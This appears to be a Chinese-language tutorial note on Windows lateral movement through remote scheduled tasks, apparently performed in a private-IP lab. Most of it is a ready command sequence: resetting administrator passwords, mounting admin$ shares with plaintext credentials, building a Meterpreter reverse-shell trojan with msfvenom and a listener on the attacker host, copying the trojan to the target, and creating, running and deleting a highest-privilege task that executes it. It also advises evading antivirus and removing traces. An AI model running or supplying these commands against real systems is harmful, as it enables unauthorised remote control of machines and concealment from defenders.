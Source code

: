 ```yaml
---
title: 横向移动：schtasks远程计划任务
categories:
- windows
tags:
- windows
---
```


## 视频教程：
[横向移动手法介绍](https://www.bilibili.com/video/BV1Hz4y1Z7pJ)
## 拓扑图

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-04-06/10]($res/10.png)

## 执行的命令
net user administrator 123456
net user administrator qwe123!
net use \\192.168.123.67\admin$ /user:"administrator" 123456

win10提示:服务器没有配置远程管理的功能
win2008 命令成功完成
net use \\192.168.123.24\admin$ /user:"administrator" qwe123!
net time \\192.168.123.24 提示服务尚未启动
at \\192.168.123.24

生成木马
handler -H 192.168.123.138 -P 4444 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.138 LPORT=4444 -f exe -o payload.exe

上传木马
xcopy C:\Users\whale\Desktop\p\0404.exe \\192.168.123.24\admin$\temp\

调整字符集
chcp 437

创建计划任务
schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00

设置无论用户是否登陆，都执行计划任务

run whether user is logged on or not 

schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00 /NP


查看帮助
schtasks /create /?

执行计划任务
schtasks /run /tn todayfive /s 192.168.123.24 /U "administrator" /P "qwe123!"

查看运行状态
schtasks /query /s 192.168.123.24 /U "administrator" /P "qwe123!" | findstr "todayfive"

删除
schtasks /delete /F /tn todayfive /s 192.168.123.24 /U " administrator" /P "qwe123!"
在远程的目标机器上创建计划任务
1. 被动密码搜集的方式
2. 指定计划任务执行的时间
3. exe免杀木马

注意：
- win7以后使用schtasks命令，之前使用at命令
- 应用场景：快速横向移动拿权限用的。
- 非稳定控制的方式。需要自行免杀绕过av。
- 拿到权限就删掉计划任务
- 中文系统要调整字符集
